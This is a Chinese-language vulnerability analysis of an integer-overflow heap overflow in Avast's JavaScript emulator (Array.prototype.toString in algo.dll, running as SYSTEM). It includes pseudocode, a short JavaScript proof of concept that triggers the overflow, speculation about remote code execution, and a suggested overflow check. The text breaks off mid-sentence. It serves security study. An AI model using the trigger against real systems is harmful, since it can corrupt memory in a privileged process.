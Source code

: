 # avast: Out-of-bounds copy in Array.prototype.toString

## SUMMARY

一个由于整数溢出造成的溢出漏洞。

## PRODUCT
`AvastSvc.exe`进程拥有`SYSTEM`权限。此进程加载了一个低安全级别的反病毒引擎，用来处理一些不安全的数据。问题在于，这个引擎虽然被设计为处理不被信任的数据，但是缺少沙箱和缓解机制的保护，任何的漏洞都有可能造成较高的威胁，而且比较容易被远程攻击。

## DETIAL

该应用有一个用于处理js数据的模拟器，此进程使用了`algo.dll`,在其中的`Array.prototype.toString`中存在一个缓冲区溢出漏洞，这个地方的代码可以用伪代码表述为：

```c
// stringList contains some strings

size_type total_len = 0;

for(auto s: stringList){
    total_len += strings(s);
}

void* temp = alloc(total_len);

// ...
//然后把toString的结果字符串copy到这个地方去。

strcpy(temp, result);
```

漏洞点在于，如果list中存放了比较长字符串的话，对total_len的累加有可能使之溢出，变为一个较小的值，在后面分配一块较小的内存，然后将toString的结果copy到这块内存，造成了溢出。

例如：

size_type的范围指定为0-255，采用8bit表示。考虑一个字符串长度位'129',list中有两个这样的字符串。
`total_len = 0 + 129 + 129 = 129* 2 - 256 = 2`,接下来将Alloc(2),然后将长度至少为`129*2`的结果拷贝到temp指向的内存，造成溢出。

## POC

poc地址<br />
https://github.com/taviso/avscript
poc:
```js
var test = "0123456789";
//产生一个长字符串，长度为10*（2**16）
for(var i = 0; i < 16; i++){
    test = test + test;
}

var a = [];

//在list中放入6554个长度为10*（2**16）的字符串
for(var i = 0; i < 6554; i++){
    a[i] = test;
}

//触发漏洞
a.toString()
```

## 复现
可以通过作者项目搭建环境<br />
https://github.com/taviso/avscript

## 利用思路（x）猜测（√）

- 该进程运行在SYSTEM权限，成功的攻击将会造成巨大的损害。
- 根据描述，该进程可以处理网络流量，可能会造成远程的攻击和利用
- 从作者的poc来看，可以用来破坏或者覆写内存中的指针和其他数据结构，劫持程序执行流。

## 漏洞的产生原因

程序员并没有考虑到`toString`的结果会这么长。正常来讲，list中的基本元素，像Integer，Boolean这些数据类型要达到这么长的toString，只能是list中的数据量特别大。但是String类型由于本身长度就比较长，比较容易溢出。

除去StringList可能触发这一漏洞外，任何自定义的class的List，通过重写toString，也可以触发这一漏洞。

这个漏洞可以有一些等价的形式，例如：<br />
对整形数据做乘法运算时，不进行溢出检测;<br />
```c
//记录电话号码
int n = getNum();
char* phoneList = malloc(n*12);
for(int i = 0; i< n; i++){
    read(0,phoneList,11);
    phoneList[11] = 0;
    phoneList += 12;
}
```

## 修复

在toString中采用溢出检测。
```c
newLen = oldLen + addLen;
if(oldLen > newLen)
    perror("xxxx")
oldLen = newLen;
//do sth
```

## 漏洞评级

我认为，漏洞比较危险。可能造成rce（x






